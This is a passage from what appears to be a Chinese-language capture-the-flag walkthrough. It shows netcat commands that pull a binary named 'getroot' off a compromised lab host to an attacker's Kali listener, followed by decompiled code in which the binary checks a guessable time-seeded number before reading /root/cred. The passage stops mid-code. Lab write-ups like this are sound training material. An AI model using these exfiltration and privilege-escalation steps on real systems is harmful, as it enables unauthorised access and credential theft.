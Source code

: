 ![](./images/image-67.png)

用**nc**把**getroot**传出来

```
# msf
nc 192.168.56.104 9999 < getroot

# kali
❯ nc -lvnp 9999 > getroot
```

同样进行反编译

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  double v3; // xmm0_8
  __int64 v4; // rax
  __int64 v5; // rax
  __int64 v6; // rdx
  __int64 v7; // rax
  int v8; // ebx
  unsigned int v9; // eax
  __int64 v10; // rax
  __int64 v11; // rax
  char v13[256]; // [rsp+10h] [rbp-260h] BYREF
  __int64 v14; // [rsp+110h] [rbp-160h] BYREF
  char v15[32]; // [rsp+220h] [rbp-50h] BYREF
  int v16; // [rsp+240h] [rbp-30h] BYREF
  int v17; // [rsp+244h] [rbp-2Ch] BYREF
  int v18; // [rsp+248h] [rbp-28h] BYREF
  char v19; // [rsp+24Fh] [rbp-21h] BYREF
  double v20; // [rsp+250h] [rbp-20h]
  int v21; // [rsp+258h] [rbp-18h]
  int v22; // [rsp+25Ch] [rbp-14h]

  if ( argc > 1 )
  {
    v22 = atoi(argv[1]);
    v9 = time(0LL);
    srand(v9);
    v21 = rand() % 86400;
    generate_normal_distribution();
    v20 = v3;
    v16 = (int)(5.0 * v3) + v21;
    v17 = 86399;
    v10 = std::min<int>(&v16, &v17);
    v18 = 0;
    v16 = *(_DWORD *)std::max<int>(&v18, v10);
    std::allocator<char>::allocator(&v19);
    std::string::basic_string(v15, "/root/cred", &v19);
    std::allocator<char>::~allocator(&v19);
    if ( v22 == v16 + 12345 )
    {
      std::ifstream::basic_ifstream(v13, v15, 8LL);
      if ( (unsigned __int8)std::ios::operator bool(&v14) )
      {
```